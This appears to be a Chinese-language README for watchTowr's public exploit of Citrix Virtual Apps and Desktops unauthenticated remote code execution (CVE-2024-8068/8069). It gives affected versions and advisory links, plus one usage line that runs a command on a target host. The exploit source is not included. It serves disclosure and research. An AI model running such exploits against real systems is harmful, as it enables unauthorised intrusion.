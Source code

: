 # CVE-2024-8068 and CVE-2024-8069
Citrix 虚拟应用和桌面 (XEN) 未认证远程代码执行漏洞

查看我们的[博客文章](https://labs.watchtowr.com/visionaries-at-citrix-have-democratised-remote-network-access-citrix-virtual-apps-and-desktops-cve-unknown/)了解详细的技术信息。

https://github.com/user-attachments/assets/563fd110-5321-49f7-8dc3-48eb0a53e0f9


# 漏洞利用演示

```python
python exploit-citrix-xen.py --target 192.168.1.120 --port 80 --cmd "whoami"

        CVE-xxxx-xxxxx.py
        (*) Citrix 虚拟应用和桌面 未认证远程代码执行 (CVE-xxxx-xxxxx) 漏洞利用 by watchTowr
        CVE: [CVE-xxxx-xxxxx]

[INFO] 命令已成功发送至 192.168.1.120！
```

# 受影响的版本

Citrix Virtual Apps and Desktops 7 2402 LTSR 及之前的所有版本均存在此漏洞，更多详细信息请参考 [Citrix 官方公告](https://support.citrix.com/s/article/CTX691941-citrix-session-recording-security-bulletin-for-cve20248068-and-cve20248069?language=en_US)。

# 漏洞作者

此漏洞利用工具由 [Sina Kheirkhah (@SinSinology)](https://x.com/SinSinology) 编写，来自 [watchTowr (@watchtowrcyber)](https://twitter.com/watchtowrcyber)。

# 关注 [watchTowr](https://watchTowr.com) 实验室

获取最新的安全研究动态，请关注 [watchTowr](https://watchTowr.com) 实验室团队：

- https://labs.watchtowr.com/
- https://x.com/watchtowrcyber
